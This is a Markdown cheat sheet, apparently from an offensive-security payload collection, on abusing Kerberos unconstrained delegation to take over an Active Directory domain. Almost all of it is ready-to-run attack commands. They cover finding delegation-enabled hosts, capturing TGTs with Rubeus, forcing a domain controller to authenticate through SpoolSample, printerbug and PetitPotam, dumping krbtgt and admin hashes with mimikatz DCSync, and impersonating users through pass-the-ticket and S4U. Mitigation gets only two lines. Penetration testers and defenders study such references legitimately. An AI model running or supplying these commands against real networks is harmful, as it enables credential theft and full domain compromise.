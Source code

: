 # Kerberos Delegation - Unconstrained Delegation

> The user sends a ST to access the service, along with their TGT, and then the service can use the user's TGT to request a ST for the user to any other service and impersonate the user.
> When a user authenticates to a computer that has unrestricted kerberos delegation privilege turned on, authenticated user's TGT ticket gets saved to that computer's memory.

:warning: Unconstrained delegation used to be the only option available in Windows 2000

> **Warning**
> Remember to coerce to a HOSTNAME if you want a Kerberos Ticket

The goal is to gain DC Sync privileges using a computer account and the SpoolService bug.

**Requirements**:

- Object with Property **Trust this computer for delegation to any service (Kerberos only)**
- Must have **ADS_UF_TRUSTED_FOR_DELEGATION**
- Must not have **ADS_UF_NOT_DELEGATED** flag
- User must not be in the **Protected Users** group
- User must not have the flag **Account is sensitive and cannot be delegated**

## Find delegation

:warning: : Domain controllers usually have unconstrained delegation enabled.
Check the `TRUSTED_FOR_DELEGATION` property.

- [ADModule](https://github.com/samratashok/ADModule)

  ```powershell
  # From https://github.com/samratashok/ADModule
  PS> Get-ADComputer -Filter {TrustedForDelegation -eq $True}
  ```

- [bloodyAD](https://github.com/CravateRouge/bloodyAD)

  ```ps1
  bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(objectCategory=Computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))' --attr sAMAccountName,userAccountControl
  ```
  
- [ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump)

  ```powershell
  $> ldapdomaindump -u "DOMAIN\\Account" -p "Password123*" 10.10.10.10   
  grep TRUSTED_FOR_DELEGATION domain_computers.grep
  ```

- [netexec module](https://github.com/Pennyw0rth/NetExec/wiki)

  ```powershell
  nxc ldap 10.10.10.10 -u username -p password --trusted-for-delegation
  ```

- BloodHound: `MATCH (c:Computer {unconstraineddelegation:true}) RETURN c`
- Powershell Active Directory module: `Get-ADComputer -LDAPFilter "(&(objectCategory=Computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" -Properties DNSHostName,userAccountControl`

## Kerberoasting Unconstrained Delegation 

* **Rubeus**                                                                                                                                                          
  Monitor for New TGT's                                                                                                                                               
  ```powershell                                                                                                                                                       
  .\Rubeus.exe monitor /interval:5 /nowrap                                                                                                                            
  ```                                                                                                                                                                 
  Use the recieved ticket to access a resource                                                                                                                        
  ```powershell                                                                                                                                                       
  .\Rubeus.exe asktgs /ticket:<Recieved Ticket> /service:<SPN> /ptt                                                                                                   
  ```                                                                                                                                                                 
  If the above doesn't work, we use renew to get a brand new TGT instead of a TGS
  ```powershell
  .\Rubeus.exe renew /ticket:<ticket> /ptt                                                                                                                            
  ```

## The Printer Bug (exploit w/ [SpoolSample POC](https://github.com/leechristensen/SpoolSample) & Rubeus

> There is a bug in the Print System Remote protocol that can force a computer to authenticate to any computer in the domain, thus allowing us to capture the machine TGT

* **We can use the [SpoolSample POC](https://github.com/leechristensen/SpoolSample) to accomplish this**

### Execution
  Note: 2 computers, sql01 & DC01
  From SQL01:
  ```powershell
  .\Rubeus.exe monitor /interval:5 /nowrap
  ```
  Open another PS windowson SQL01
  ```powershell
  #Syntax
  .\SpoolSample.exe <TargetServer> <CaptureServer>
  # Example
  .\SpoolSample.exe dc01.inlanefreight.local sql01.inlanefreight.local
  # This should force DC01 to auth to SQL01 thus giving us the TGT of the DC
  ```
  Renew the captured TGT w/ Rubeus
  ```powershell
  .\Rubeus.exe renew /ticket:<ticket> /ptt
  ```
  If we manage to capture the tgt, we can perform a DCSync and pwn the domain

Example
  Dumping an admin user w/ mimikatz
  ```powershell
  mimikatz.exe
  mimikatz > lsadump::dcsync /user:<Admin Username>
  ```
  Rubeus to request a ticket as that admin user
  ```powershell
  .\Rubeus.exe asktgt /rc4:<NTLM hash> /user:<admin username> /ptt
  ```
  We can now use this ticket to impersonate the administrative user.

## SpoolService Abuse with Unconstrained Delegation Using SpoolSample, krbrelayx, & dementor

### SpoolService status

Check if the spool service is running on the remote host

```powershell
ls \\dc01\pipe\spoolss
python rpcdump.py DOMAIN/user:password@10.10.10.10
```

### Monitor with Rubeus

Monitor incoming connections from Rubeus.

```powershell
.\Rubeus.exe monitor /interval:5 /nowrap
```

### Force a connect back from the DC

Due to the unconstrained delegation, the TGT of the computer account (DC$) will be saved in the memory of the computer with unconstrained delegation. By default the domain controller computer account has DCSync rights over the domain object.

> [SpoolSample PoC](https://github.com/leechristensen/SpoolSample) is a PoC to coerce a Windows host to authenticate to an arbitrary server using a "feature" in the MS-RPRN RPC interface.

```powershell
.\SpoolSample.exe VICTIM-DC-NAME UNCONSTRAINED-SERVER-DC-NAME
.\SpoolSample.exe DC01.HACKER.LAB HELPDESK.HACKER.LAB
# DC01.HACKER.LAB is the domain controller we want to compromise
# HELPDESK.HACKER.LAB is the machine with delegation enabled that we control.

### krbrelayx
# From https://github.com/dirkjanm/krbrelayx
printerbug.py 'domain/username:password'@<VICTIM-DC-NAME> <UNCONSTRAINED-SERVER-DC-NAME>

# From https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc#gistcomment-2773689
python dementor.py -d domain -u username -p password <UNCONSTRAINED-SERVER-DC-NAME> <VICTIM-DC-NAME>
```

If the attack worked you should get a TGT of the domain controller.

### Load the ticket

Extract the base64 TGT from Rubeus output and load it to our current session.

```powershell
.\Rubeus.exe asktgs /ticket:<ticket base64> /service:LDAP/dc.lab.local,cifs/dc.lab.local /ptt
```

Alternatively you could also grab the ticket using Mimikatz :  `mimikatz # sekurlsa::tickets`

Then you can use DCsync or another attack : `mimikatz # lsadump::dcsync /user:HACKER\krbtgt`

## S4U2self for Non-Domain Controllers
> Using the credentials above, if we don't need to do a DCSync, or if the target computer is not a DC, we can use S4U2self to impersonate any user in the domain. This is useful for scenarios where we have a ticket from a computer that is not a domain controller

Forge a service ticket for any service                                                                                                                              
  ```powershell                                                                                                                                                       
  .\Rubeus.exe s4u /self /nowrap /impersonateuser:<User to impersonate> /altservice:<SPN> /ptt /ticker:<ticket>                                                       
  ```

### Mitigation

- Ensure sensitive accounts cannot be delegated
- Disable the Print Spooler Service

## MS-EFSRPC Abuse with Unconstrained Delegation

Using `PetitPotam`, another tool to coerce a callback from the targeted machine, instead of `SpoolSample`.

```bash
# Coerce the callback
git clone https://github.com/topotam/PetitPotam
python3 petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD $ATTACKER_IP $TARGET_IP
python3 petitpotam.py -d '' -u '' -p '' $ATTACKER_IP $TARGET_IP

# Extract the ticket
.\Rubeus.exe asktgs /ticket:<ticket base64> /ptt
```

## References

- [Exploiting Unconstrained Delegation - Riccardo Ancarani - 28 APRIL 2019](https://www.riccardoancarani.it/exploiting-unconstrained-delegation/)
- [Hunting in Active Directory: Unconstrained Delegation & Forests Trusts - Roberto Rodriguez - Nov 28, 2018](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
- [Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory - Elad Shamir - 28 January 2019](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
